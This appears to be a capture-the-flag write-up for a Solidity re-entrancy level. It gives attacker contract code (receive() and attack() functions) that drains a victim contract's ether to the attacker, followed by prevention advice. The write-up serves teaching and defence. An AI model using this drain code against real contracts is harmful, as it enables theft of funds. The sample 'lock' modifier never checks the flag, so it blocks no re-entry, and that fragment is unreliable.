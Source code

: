 # 10) Re-entrancy

Success condition:
> The goal of this level is for you to steal all the funds from the contract.

Simply enough. Based on the Name of the level, we will have to use a re-entrancy attack to steal the funds. We can see that this line `msg.sender.call{value: _amount}("")` in the withdraw function will send ehter to the `msg.sender`. If the `msg.sender` is a contract, this will call the `receive()` function. We can thus choose to execute any code we want within this function. This is how we will attack this contract.

Our `receive()` function is like this:

```
receive() external payable {
    uint256 balanceTotal = victim.balance; // find out how much ether is in the contract
    if (balanceTotal > 0) {
        Reentrance(victim).withdraw(balanceTotal); // withdraw all of it
    }
    owner.transfer(address(this).balance);  // send the ether to the attacker address (whoever deploy the attack contract)
}

```

By looking at the `withdraw()` function we can see that we need to satisfy this condition `(balances[msg.sender] >= _amount)` to execute the `msg.sender.call()`. So we first need to donate some ether to increase our balance in the contract. By sending the same amount of ether that is on the contract, We will be able to drain all funds by calling the `withdraw()` function:

```
function attack() public {
    uint256 balanceTotal = victim.balance;  //get the amount of ether on the contract
    Reentrance(victim).donate{value: balanceTotal, gas: 1000000}( //send that much ether.  (need to add more gaz)
        address(this)
    );
    Reentrance(victim).withdraw(balanceTotal);  // withdraw the same amount
}

```
Here's what happens during our attack in the Reentrance::withdraw function:
```
   function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {  // 1. condition passed since withdraw what we sent
            (bool result, ) = msg.sender.call{value: _amount}("");  // 2. we get our money back plus run our receive() function which run 1. and 2. again
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

```




---
### Re-entrancy attack

A contract during its normal execution may perform calls to other contracts, by doing function calls or simply transferring Ether. These contracts can themselves call other contracts. In particular, they can call back to the contract that called them, or any other in the call stack. In that case, we say that the contract is re-entered, and this situation is known as reentrancy.



### How to prevent the attack
To avoid a Re-entrancy attack, it is good to use a Check-effect-interaction pattern, where you first reduce the balance of the user before sending him his money for exemple. You can also use a lock on the function such as a locking modifier:
```
modifier lock() {
        locked = true;
        _;
        locked = false;
    }
```

### call() instead of transfer and send
```
contract Vulnerable {
    function withdraw(uint256 amount) external {
        // This forwards 2300 gas, which may not be enough if the recipient
        // is a contract and gas costs change.
        msg.sender.transfer(amount);
    }
}

contract Fixed {
    function withdraw(uint256 amount) external {
        // This forwards all available gas. Be sure to check the return value!
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success, "Transfer failed.");
    }
}
```

---
## Level completed!

In order to prevent re-entrancy attacks when moving funds out of your contract, use the Checks-Effects-Interactions pattern being aware that call will only return false without interrupting the execution flow. Solutions such as ReentrancyGuard or PullPayment can also be used.

transfer and send are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://consensys.net/diligence/blog/2019/09/stop-using-soliditys-transfer-now/), [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

 

The DAO Hack
The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See 15 lines of code that could have prevented TheDAO Hack.

 